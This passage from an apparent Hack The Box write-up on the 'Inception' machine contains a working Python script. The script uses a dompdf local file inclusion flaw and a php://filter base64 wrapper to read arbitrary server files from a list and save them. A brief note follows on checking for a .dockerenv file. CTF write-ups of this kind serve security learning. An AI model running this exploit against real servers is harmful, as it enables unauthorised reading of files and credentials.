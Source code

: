 ```
import requests
import base64

def getBase64(text):
    output = text.split(" ")
    for x in output:
        if "[(" in x:
            base64_text = x.replace("[(","").replace(")]","")
            decoded_text = base64.b64decode(base64_text).decode('utf-8')
            return decoded_text

def exploit(url, filename):
    try:
        url = url + filename
        r = requests.get(url)
        data = str(r.text)
        output = data.split("\n")
        for x in output:
            if "Tf" in x:
                return getBase64(x)
            else:
                continue
    except:
        return None

def main(url):
    filenames = open("lfi.txt").readlines()
    number = 0
    for filename in filenames:
        filename = filename.strip()
        decoded_text = exploit(url, filename)
        if decoded_text is None:
            continue
        outputfilename = "files/{number}".format(number=str(number))
        outputfile = open(outputfilename,'a')
        outputfile.write(filename)
        outputfile.write("\n")
        outputfile.write(decoded_text)
        print("[*] {filename} saved to {outputfilename}".format(filename=filename,outputfilename=outputfilename))
        number += 1
        outputfile.close()

if __name__ == '__main__':
    url = "http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource="
    main(url)
```

### Verifying that we are in a container
Using the ```ls -la``` command, we are unable to find a .dockerenv file that tells us that we are in a container
